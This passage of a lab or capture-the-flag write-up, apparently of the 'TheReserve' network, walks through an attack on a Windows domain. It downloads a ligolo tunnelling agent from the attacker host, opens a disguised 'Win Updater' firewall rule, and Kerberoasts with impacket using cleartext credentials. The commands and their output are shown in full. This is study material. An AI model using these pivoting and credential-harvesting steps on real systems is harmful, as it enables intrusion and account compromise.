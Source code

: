 	python -m http.server

from the wrk1 host I downloaded the agent on wrk1

	Invoke-WebRequest -URI "http://12.100.1.9:8000//agent.exe" -OutFile "C:\users\support\def-exc\agent.exe"

On the attacker:
	
 	ip tuntap add user root mode tun ligolo && ip link set ligolo up
	./proxy -selfcert
	
On the wrk1 start the agent
	
 	agent.exe -connect 12.100.1.9:11601 -ignore-cert

You will get a new session on the attacker machine. You can interact with it using the session command.
On the session command you can list all the agent network interfaces using ifconfig.
Then add the routing information according to the interface you want to reach, in our case we add the route to the DC.
<b>Do not route all the /24 subnet otherwise you will not be able to reach wrk1 and wrk2 anymore using corp VPN</b>

	ip route add 10.200.89.102/32 dev ligolo

Finally in the agent command interface issue:

	start

I also configured a listener on the agent on port 1180 and redirect the traffic on the attacker machine (proxy) on port 8000.

 	listener_add --addr 0.0.0.0:1180 --to 127.0.0.1:8000 --tcp

Youm must also open this port on Windows firewall

	New-NetFirewallRule -DisplayName 'Win Updater' -Profile 'Domain' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1180
That implies I can reach my python web server from other hosts visitng the following URL http://10.200.89.21:1180
 
 ### Kerberosting
 Now that I can reach the DC directly from the attacker machine, I can use Impacket to search for kerberostable service accounts. Again I used laura.wood credentials to query Active Directory:

 	impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.200.89.102  'corp.thereserve.loc/laura.wood:Password1@'
  	Impacket v0.12.0.dev1 - Copyright 2023 Fortra

	ServicePrincipalName  Name         MemberOf                                                   PasswordLastSet             LastLogon                   Delegation 
	--------------------  -----------  ---------------------------------------------------------  --------------------------  --------------------------  ----------
	cifs/scvScanning      svcScanning  CN=Services,OU=Groups,DC=corp,DC=thereserve,DC=loc         2023-02-15 10:07:06.603818  2024-04-19 12:02:59.557350             
	cifs/svcBackups       svcBackups   CN=Services,OU=Groups,DC=corp,DC=thereserve,DC=loc         2023-02-15 10:05:59.787089  2023-02-15 10:42:19.327102             
	http/svcEDR           svcEDR       CN=Services,OU=Groups,DC=corp,DC=thereserve,DC=loc         2023-02-15 10:06:21.150738  <never>                                
	http/svcMonitor       svcMonitor   CN=Services,OU=Groups,DC=corp,DC=thereserve,DC=loc         2023-02-15 10:06:43.306959  <never>                                
	mssql/svcOctober      svcOctober   CN=Internet Access,OU=Groups,DC=corp,DC=thereserve,DC=loc  2023-02-15 10:07:45.563346  2023-03-31 00:26:54.115866             
